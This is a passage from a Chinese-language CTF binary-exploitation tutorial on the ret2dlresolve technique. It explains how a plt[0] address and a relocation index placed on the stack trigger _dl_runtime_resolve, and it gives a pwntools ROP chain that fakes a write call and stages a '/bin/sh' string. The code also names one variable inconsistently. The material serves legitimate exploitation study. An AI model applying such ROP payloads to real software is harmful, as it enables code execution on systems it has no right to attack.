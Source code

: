 **为什么在栈中部署plt[0]和write_plt就可以达到调用write函数的作用？**

这么布局其实是在模拟调用dl_runtime_resovle之前的过程，如果忘记了可以往前翻看一下。调用dl_runtime_resovle前的过程精简如下：

```
call  write@plt
jump  next addr
push  reloc_arg(dl_runtime_resovle的1参，也就是write_index)
jump --> 公共plt表项（plt0）
push  link_map
jump --> dl_runtime_resovle
```

栈中的plt0和write_index就是跳过了call的过程，在模拟push reloc_arg和jump 公共plt表项这两个步骤，接下来程序会顺着往下运行dl_runtime_resovle函数，从而起到和直接调用write函数一样的作用



此时的代码里应该：

1. 获取ptl[0]
2. 计算write_reloc_index

```
#获取plt[0]地址
plt0 = elf.get_section_by_name('.plt').header.sh_addr

#计算write函数的reloc_index
write_reloc_index = (elf.plt['write'] - plt0) / 16 - 1
write_reloc_index *= 8
rop.raw(plt0)
rop.raw(write_index)

#伪造write函数的ret addr
rop.raw('bbbb') #write函数的返回地址
rop.raw(1) #write函数的第一个参数
rop.raw(base_stage + 80) #write函数的第二个参数
rop.raw(len(sh)) #write函数的第三个参数
print("len:rop.chain():")
print(len(rop.chain()))#长度为n，所以可以在base_stage + n写上/bin/sh
rop.raw(sh)

rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
```



第五步、可以计算(.rel.plt + reloc_index)的计算，直接让程序指向write函数的Elf32_Rel结构体，也就是对结构体的迁移

![image-20240315182237453](${images}/image-20240315182237453.png)



构建结构体成员

在新栈中，ret位是plt0的话，那么就需要一个地址将流程指向需要伪造的write_Elf32_Rel结构体，这个地址先放着，先了解write函数在.rel.plt的结构题的构造：


[CTF-wiki]: https://ctf-wiki.org/pwn/linux/user-mode/environment/	"ctf-wiki知识库"
[CTFHub]: https://www.ctfhub.com/#/skilltree	"ctfhub技能树"
[攻防世界]: https://adworld.xctf.org.cn/challenges/list	"题库"